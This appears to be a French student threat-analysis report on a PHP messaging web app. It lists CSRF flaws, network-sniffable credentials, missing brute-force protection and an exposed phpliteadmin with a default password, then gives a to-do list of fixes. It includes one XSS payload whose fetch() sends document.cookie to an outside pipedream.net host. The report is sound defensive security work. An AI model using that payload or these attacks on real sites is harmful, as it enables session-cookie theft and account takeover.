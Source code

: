 # STI — Analyse de menaces

* **Date** : 15.01.2020
* **Auteurs** : Nikolaos Garanis, Nemanja Pantic.

## Introduction

* CSRF sur tous les formulaires ainsi que les liens, on a reussi à
  * supprimer n'importe quel message (via son id)
    * en chargeant l'url /delete.php?delete=<id>
  * executer une requete http pour lire n'importe quel message via son id
    * /read.php?message=131, mais impossible de lire le contenu depuis le navigateur mais si l'attaquant sniff le reseau il pourra voir le contenu du message
  * envoyer un message
    *
  * changer son mdp
  * administration
  * réponse aux messages
  * suppression des messages
* Credentials obtenable en faisant de l'écoute sur le réseau
  * Nous pouvons obtenir le cookie de session ainsi que le login et le password
  * N'importe qui peut donc usurper l'identité d'un compte sur le réseau
* XSS dans message avec
    ```html
    <script>fetch('https://enons72ccci9o.x.pipedream.net/c' + document.cookie)</script>
    ```
* pas d'injections SQL car PDO::prepare/execute sont utilisés.
* pas de protection contre le bruteforce de mdp
* mot de passe actuel non demandé lors du changement de mdp (possibilité de changé le mdp lors d'un vol de session)
 
* Fuzzing possible
  * On obtient des informations sur l'architecture du site
  * Surtout, on peut découvrir le dossier /extern qui contient le fichier phpliteadmin.php et ce dernier avait le mot de passe de base, nous avions donc accès à l'intégralité de la DB.

## À faire

* ~~hasher les mdp~~
* ~~enlever extern~~
* ~~demander le mdp actuel lors du changement de mdp~~
* ~~enlever les mdp trop simples~~
* protection xss
* locker un compte si y'a trop d'essais ratés
* token csrf
